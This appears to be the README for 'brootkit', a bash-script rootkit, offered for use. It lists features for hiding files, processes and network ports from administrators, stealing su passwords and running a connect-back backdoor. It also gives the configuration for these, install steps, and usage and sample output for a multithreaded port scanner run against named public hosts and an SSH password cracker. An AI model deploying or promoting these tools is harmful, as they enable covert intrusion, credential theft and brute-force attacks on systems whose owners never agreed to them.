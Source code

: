 ######BROOTKIT
    Lightweight rootkit implemented using bash shell scripts v0.10
    
    by wzt 2015   wzt.wzt@gmail.com
    
    If bash shell scripts can be designed for security tools like chkrootkit
    or rkhunter, so too can it be implemented for a rootkit.

######FEATURES
    1. more hidable ability against admintrator or hids.
    2. su passwd thief.
    3. hide file and directories.
    4. hide process.
    5. hide network connections.
    6. connect backdoor.
    7. multi thread port scanner.
    8. http download.
    9. multi thread ssh passwd crack.

######TARGET OS
    1. centos
    2. rhel
    3. ubuntu
    4. debian
    5. fedora
    6. freebsd

######TODO
    1. sudo thief support.

######INSTALL

    Linux distribution systems.

    1. edit br.conf first

      brootkit config file.

      #these ports will be hidden: port1,port2,...,portn.
      HIDE_PORT               8080,8899
      #these files will be hidden: file1,file2,...,filen.
      HIDE_FILE               br.conf,bashbd.sh,brootkit,.bdrc,brdaemon
      #these processes will be hidden: process1,process2,...,processn.
      HIDE_PROC               bashbd,brootkit,pty.spawn,brdaemon
      #the connect back host domain name or ip address.
      REMOTE_HOST             localhost
      #the connect back host port.
      REMOTE_PORT             8080
      #the connect backdoor base sleep time.
      SLEEP_TIME              60

    2. ./install.sh

    3. multi thread port scanner.

      [root@localhost brootkit]$ ./brscan.sh
      ./brscan.sh <-p> [-n|-t|-o|-h] <remote_host>

      option:
      -p              ports, pattern: port1,port2,port3-port7,portn...
      -n              thread num, default is 10
      -t              timeout, default is 30s
      -o              results write into log file, default is brscan.log
      -h              help information.

      exp:
      ./brscan.sh -p 21,22,23-25,80,135-139,8080 -t 20 www.cloud-sec.org
      ./brscan.sh -p 1-65525 -n 200 -t 20 www.cloud-sec.org

      [root@localhost brootkit]# ./brscan.sh -p 21,22,23-25,80,135-139,8080 -t 5 -n 20 www.wooyun.org
      host: www.wooyun.org | total ports: 10 | thread num: 10 timeout: 5 | logfile: brscan.log

      thread<0    >           --              pid <57053>     -->     21
      thread<1    >           --              pid <57054>     -->     22
      thread<2    >           --              pid <57055>     -->     23
      thread<3    >           --              pid <57056>     -->     24
      thread<4    >           --              pid <57057>     -->     80
      thread<5    >           --              pid <57058>     -->     135
      thread<6    >           --              pid <57059>     -->     136
      thread<7    >           --              pid <57060>     -->     137
      thread<8    >           --              pid <57061>     -->     138
      thread<9    >           --              pid <57070>     -->     8080

      [>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>]     10/10     6 s

      www.wooyun.org: 80

    4. multi thread ssh passwd crack.
      [root@localhost brootkit]# ./sshcrack.sh
      ./sshcrack.sh <-h host> <-u user> <-p passwd> [-t timeout] [-n threadnum] [-o logfile]

      option:
      -h              host name or host list file.
      -u              user name or user list file.
      -p              single passwd or passwd list file.
      -t              connect timeout, defalut is 5s.
      -n              thread num, default is 1.
      -o              log file.
      -v              display help information.

      exp:

      ./sshcrack.sh -h 192.168.215.148 -u wzt -p passwd.lst
      ./sshcrack.sh -h 192.168.215.148 -u wzt -p passwd.lst -n 10 -t 2
      ./sshcrack.sh -h 192.168.215.148 -u user.lst -p passwd.lst -n 10 -t 2
      ./sshcrack.sh -h host.lst -u user.lst -p passwd.lst -n 10 -t 2

      [root@localhost brootkit]# ./sshcrack.sh -h 192.168.215.148 -u wzt -p passwd.lst -n 6
      host: 1 | users: 1 | passwd: 28 thread: 6 | timeout: 10 | logfile: sshcrack.log

      Thread[ 1]      wzt@192.168.215.148             ==>     [e               ]      [failed]         3
      Thread[ 2]      wzt@192.168.215.148             ==>     [a               ]      [failed]         3
      Thread[ 3]      wzt@192.168.215.148             ==>     [d               ]      [failed]         3
      Thread[ 4]      wzt@192.168.215.148             ==>     [giveshell       ]      [success]        6
      Thread[ 5]      wzt@192.168.215.148             ==>     [123456          ]      [failed]         3
      Thread[ 6]      wzt@192.168.215.148             ==>     [fd              ]      [failed]         3

      waiting all threads to finsh...

    Freebsd system
    on the modern freebsd system root use csh by default, the other users
    use sh default. this version of brootkit can only support sh based features.

    1. edit brsh.conf first

    brshootkit config file, only one argument support.

      #this port will be hidden.
      HIDE_PORT               8080
      #these files will be hidden.
      HIDE_FILE               brsh
      #these process will be hidden.
      HIDE_PROC               sh
      #the connect back host domain name or ip address.
      REMOTE_HOST             localhost
      #the connect back host port.
      REMOTE_PORT             8080
      #the connect backdoor base sleep time.
      SLEEP_TIME              60

    2. ./install.sh

######SOURCE
    https://github.com/cloudsec/brootkit
